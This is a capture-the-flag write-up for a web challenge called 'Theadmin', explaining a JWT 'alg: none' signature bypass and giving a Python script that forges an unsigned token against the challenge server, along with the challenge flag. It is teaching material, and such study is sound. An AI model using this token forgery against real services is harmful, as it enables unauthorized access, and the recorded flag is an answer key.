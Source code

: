```yaml
---
title: Theadmin
categories: "Web Exploitation"
tags: 
draft: true
completedDuringEvent: true
submitted: true
flags: QUESTCON{J3T_4lg0r1thm_15_vuln3r4bl3_70_n0n3}
---
```

## Scenario

> The Professor has left a vulnerable authentication system. Can you exploit it and gain admin not just using admin? Sometimes the simplest loopholes can lead to the biggest breakthroughs. Its simple but **none** of you could figure out.

## Solution

You need to send a POST request to the `https://<url>/auth` endpoint with the username `admin`. The server will respond with a JSON object containing a token. This token is a JSON Web Token (JWT) that is base64 encoded and consists of three parts separated by a dot (`.`): the header, the payload, and the signature. You should create a new header with the algorithm set to `none` and the type set to `JWT`. Then, decode the payload from the token and create a new payload. After that, encode the new header and the new payload separately. Finally, send a GET request to the `https://<url>/access` endpoint with the new header and the new payload.

Here is the Python script to exploit the vulnerability:

```py
import requests
import base64

auth_url = "https://questcon-theadmin.chals.io/auth"
access_url = "https://questcon-theadmin.chals.io/access"

response = requests.post(auth_url, json={"username": "admin"})
response_header = b'{"alg": "none", "typ": "JWT"}'
response_payload = base64.b64decode(response.json()["token"].split(".")[1] + "==")

headers = {"Authorization": f"Bearer {base64.b64encode(response_header).decode().rstrip('=')}.{base64.b64encode(response_payload).decode().rstrip('=')}."}
response = requests.get(access_url, headers=headers)
print(response.text)
```
